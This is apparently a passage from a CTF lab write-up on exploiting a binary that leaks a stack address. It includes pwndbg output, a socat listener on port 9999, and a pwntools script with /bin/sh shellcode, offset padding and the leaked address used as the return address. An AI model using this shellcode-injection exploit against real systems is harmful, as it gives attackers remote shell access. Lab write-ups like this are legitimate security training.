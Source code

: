  

If we see the content of the address `lekeada`when running the program we can verify that it is indeed the one `direccion`at the beginning of our`input`

```
pwndbg> x/10gx 0x7fffffffe530
0x7fffffffe530:	0x4141414141414141	0x4141414141414141  
0x7fffffffe540:	0x4141414141414141	0x4141414141414141  
0x7fffffffe550:	0x4141414141414141	0x4141414141414141  
0x7fffffffe560:	0x4141414141414141	0x4141414141414141  
0x7fffffffe570:	0x4141414141414141	0x4242424242424242  
pwndbg>
```

  

In order to run the exploit that we will do from our machine we will play with `socat`so that the program runs and we have access from the port`9999`

```
www-data@jet:~$ socat TCP-LISTEN:9999,reuseaddr,fork EXEC:/home/leak &  
[1] 7321
www-data@jet:~$
```

  

We start a `script`python to exploit it by importing the library `pwn`and defining a [shellcode](https://www.exploit-db.com/shellcodes/46907) that will execute one `/bin/sh`in `64`bits

```
#!/usr/bin/python3
from pwn import remote, p64

shellcode = b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05"  
```

  

We define the `offset`one we know and fill in with `A`until we reach`RIP`

```
offset = 72
junk = b"A" * (offset - len(shellcode))  
```

  

Now we define the connection to the machine and wait to receive the message

```
shell = remote("10.13.37.10", 9999)
shell.recvuntil(b"Oops, I'm leaking! ")  
```

  

We receive the address `lekeada`and convert it to `decimal`, followed by that with the function `p64`we give it the format that python needs to execute it in `64`bits

```
ret = p64(int(shell.recvuntil(b"\n"),16))
```
